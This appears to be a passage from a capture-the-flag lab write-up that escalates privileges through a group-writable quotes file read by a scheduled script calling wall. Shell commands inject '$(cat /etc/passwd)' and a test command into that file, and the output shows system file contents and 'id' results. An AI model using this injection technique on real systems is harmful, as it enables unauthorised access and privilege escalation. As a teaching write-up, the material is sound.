 ```bash
weston@national-treasure:~$ head /opt/.dads_scripts/.files/.quotes
"That's funny, my name's Roger. Two Rogers don't make a right!" — Gone in Sixty Seconds
"Did I ever tell ya that this here jacket represents a symbol of my individuality, and my belief in personal freedom?" — Wild at Heart
"Well, I'm one of those fortunate people who like my job, sir. Got my first chemistry set when I was seven, blew my eyebrows off, we never saw the cat again, been into it ever since." — The Rock
"Put... the bunny... back... in the box." — Con Air
"Sorry boss, but there's only two men I trust. One of them's me. The other's not you." — Con Air
"What's in the bag? A shark or something?" — The Wicker Man
"Only if it's a noun, and the words have equal weight. Like, Homeland Security. If it's a participle modifying the first word, then... you better keep it lower case." — Seeking Justice
"What do you think I'm gonna do? I'm gonna save the ' ****** day!" — Con Air
"Guns and wine. Naughty priests." — Ghost Rider: Spirit of Vengeance
Hey! My mama lives in a trailer!" — Con Air
```

So, our guess is that there is some scheduled call to `spread_the_quotes.py` script every 3 minutes, which calls `/usr/bin/wall` with an argument (one random quote)

We have write permission on quote file, since we are in `cage` group:

```bash
weston@national-treasure:~$ ls -lh /opt/.dads_scripts/.files/.quotes
-rwxrw---- 1 cage cage 4.2K May 25  2020 /opt/.dads_scripts/.files/.quotes
```


### Fun with Python

Let's *fuzz* quote file and do some test:

```bash
echo "/etc/passwd" > /opt/.dads_scripts/.files/.quotes
```

```bash
weston@national-treasure:~$ python3 script.py
wall: will not read /etc/passwd - use stdin.
```

```bash
weston@national-treasure:~$ echo "$(cat /etc/passwd)" > /opt/.dads_scripts/.files/.quotes
```

After a while, we get this:

```bash
Broadcast message from cage@national-treasure (somewhere) (Sun Jul 23 14:18:01
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
```

Let's try command injection:


```bash
weston@national-treasure:~$ cp /opt/.dads_scripts/spread_the_quotes.py ./script.py
weston@national-treasure:~$ chmod +x ./script.py
weston@national-treasure:~$ ./script.py

Broadcast message from weston@national-treasure (pts/0) (Sun Jul 23 16:09:46 20

a

uid=1001(weston) gid=1001(weston) groups=1001(weston),1000(cage)
```
